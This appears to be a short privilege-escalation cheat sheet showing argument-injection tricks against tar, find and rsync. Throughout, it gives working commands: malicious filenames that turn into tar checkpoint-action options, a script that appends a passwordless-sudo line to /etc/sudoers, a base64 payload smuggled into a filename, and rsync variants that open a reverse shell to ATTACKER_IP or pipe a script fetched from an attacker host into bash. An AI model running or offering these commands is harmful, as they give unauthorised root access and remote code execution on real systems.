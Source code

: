 

=== tar privilege escalation ==
```
Step 1: Go to /opt/admin

cd /opt/admin

Step 2: Create malicious filenames (these become tar options)

echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh privesc.sh"

Alternatively,

touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh\ shell.sh

Step 3: Create a root privilege escalation script

echo 'echo "youruser ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > privesc.sh
chmod +x privesc.sh
```


== Find ==
```
/usr/bin/find . type f -not -regex '.*\.\(jpg\|png\\gif\)' -exec bash -c "rm -f {}"\;
touch ./"file.exe; echo base64_string= | base64 -d | bash"

```

== rsync ==
Way 1:
echo "" > '-e sh shell.txt';
rsync -a -e 'ssh -p 2222' *.txt root@localhost:/tmp/

Way 2:
echo "" > '-e bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" shell.txt'
rsync -a *.txt root@localhost:/tmp/

Way 3:
echo "" > '-e bash -c "curl -s http://attacker/payload.sh | bash" shell.txt'
rsync -a *.txt root@localhost:/tmp/
